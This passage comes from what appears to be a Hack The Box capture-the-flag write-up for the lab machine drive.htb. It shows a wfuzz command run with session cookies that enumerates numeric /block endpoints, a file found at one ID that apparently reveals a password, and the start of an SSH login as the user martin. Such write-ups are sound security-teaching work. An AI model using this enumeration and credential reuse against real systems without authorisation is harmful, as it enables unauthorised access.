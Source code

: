Out of all of these, only `block` and `update` worked. `block` redirected me back to the same page.

I noticed that there were quite a few directories for this group. Next, I wanted to check what other numbers were present. I first generated a word list using a simple `for` loop, then fed it to `wfuzz`. Found that using `/FUZZ/block` worked in detecting a few new files:

```bash
$ for i in {1..999}; do echo $i; done > nums.txt
$ wfuzz -c -w nums.txt --hc=404 -H 'Cookie: csrftoken=per3SQKzb4mprJsnjOqoAp1JGsYpFP5A; sessionid=6388mz6xae83iiy85qtskl4hz2hxbje6' -u http://drive.htb/FUZZ/block --follow
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://drive.htb/FUZZ/block
Total requests: 999

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

000000079:   200        174 L    424 W      5444 Ch     "79"                        
000000100:   200        171 L    376 W      5083 Ch     "100"                       
000000101:   200        176 L    416 W      5484 Ch     "101"                       
000000099:   200        170 L    372 W      5064 Ch     "99"                        
000000098:   200        170 L    365 W      5022 Ch     "98"
```

I checked 79 first, and found another file:

![](../../.gitbook/assets/htb-drive-image-5.png)

Using this password, I could `ssh` in as `martin`:
